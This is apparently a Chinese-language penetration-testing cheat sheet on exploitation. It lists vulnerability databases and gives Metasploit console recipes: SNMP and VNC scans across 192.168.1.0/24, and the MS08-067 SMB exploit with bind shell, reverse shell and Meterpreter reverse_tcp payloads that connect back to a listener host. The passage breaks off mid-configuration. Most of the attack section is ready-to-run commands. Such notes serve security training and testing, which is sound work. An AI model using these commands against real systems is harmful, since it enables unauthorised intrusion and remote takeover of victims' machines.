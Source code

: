 # 6. 漏洞利用

## 6.1 漏洞挖掘

   编程经验、逆向工程、分析工具、漏洞利用、有效负载

## 6.2 漏洞和漏洞利用库
 
	Bugtraq SecurityFocus
	OSVDB Vulnerabilities
	Packet Storm
	VUPEN Security
	National Vulnerability Database
	ISS X-Force
	US-CERT Vulnerability Notes
	US-CERT Alerts
	SecuriTeam
	Government Security Org
	Secunia Advisories
	Security Reason
	XSSed XSS-Vulnerabilitys
	Security Vulnerabilities Database
	Offensive Security Exploits Database
	SEBUG
	BugReport
	MediaService Lab
	Intelligent Exploit Aggregaton Network
	Inj3ct0r
	Hack0wn
	离线漏洞库：www.exploit-db.com/archive.tar.bz2

## 6.3 漏洞利用工具集

	Metasploit
	MSFConsole、MSFCLI
	
	场景1 使用MSF端口扫描，保存与数据库中 db_nmap
	
	场景2 使用辅助工具进行渗透
		use auxiliary/scanner/snmp/enum
		set rhosts 192.168.1.0/24
		run
		use auxiliary/scanner/vnc/vnc_none_auth
		set rhosts 192.168.1.0/24
		run

	场景3 使用常见载荷（Bind、Reverse、Meterpreter）
		绑定shell
			use exploit/windows/smb/ms08_067_netapi
			set rhost 1.1.1.1
			set payload windows/shell/bind_tcp
			exploit
		反弹shell
			use exploit/windows/smb/ms08_067_netapi
			set rhost 1.1.1.1
			set lhost 1.1.1.10
			set payload windows/shell/reverse_tcp
			exploit
		Meterpreter win下功能强大的载荷
			use exploit/windows/smb/ms08_067_netapi
			set rhost 1.1.1.1
			set lhost 1.1.1.10
			set payload windows/meterpreter/reverse_tcp
